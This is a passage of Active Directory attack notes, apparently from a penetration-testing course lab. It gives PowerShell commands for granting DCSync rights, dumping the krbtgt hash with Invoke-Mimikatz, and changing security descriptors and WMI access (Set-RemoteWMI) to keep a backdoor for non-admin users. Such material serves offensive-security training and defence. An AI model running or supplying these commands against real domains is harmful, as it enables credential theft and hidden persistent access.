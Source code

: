 ### <span style="color:#F1C232">1. Add Rights for DCSync</span>
 
```powershell
Add-ObjectAcl -TargetDistinguishedName 'DC=domain,DC=local' -PrincipalSamAccountName student1 -Rights DCSync -Verbose
```

## <span style="color:lightgreen">Invoke-Mimikatz</span>

### <span style="color:#F1C232">2. Execute DCSync</span>
 
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

# <span style="color:lightblue">ACL - Security Descriptors</span>

* It is possible to modify Security Descriptors (security information like Owner, primary group, DACL and SACL) of multiple remote access methods (securable objects) to allow access to non-admin users.
* **Administrative privileges** are required for this.
* It, of course, works as a very useful and impactful backdoor mechanism.
* Security Descriptor Definition Language defines the format which is used to describe a security descriptor. SDDL uses ACE strings for DACL and SACL:
```console
ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
```
* ACE for built-in administrators for WMI namespaces
```console
A;Cl;CCDCLCSWRPWPRCWD;;;SID
```

Documentation : https://docs.microsoft.com/en-us/windows/win32/secauthz/ace-strings?redirectedfrom=MSDN

## <span style="color:lightgreen">Methodology/Steps</span>

- [x] 1. Once we have administrative privileges on a machine, we can modify security descriptors of services to access the services without administrative privileges.


## <span style="color:lightgreen">Set-RemoteWMI</span>

### <span style="color:#F1C232">1. On local machine for userX</span>
 
```powershell
Set-RemoteWMI -UserName userX -Verbose
```
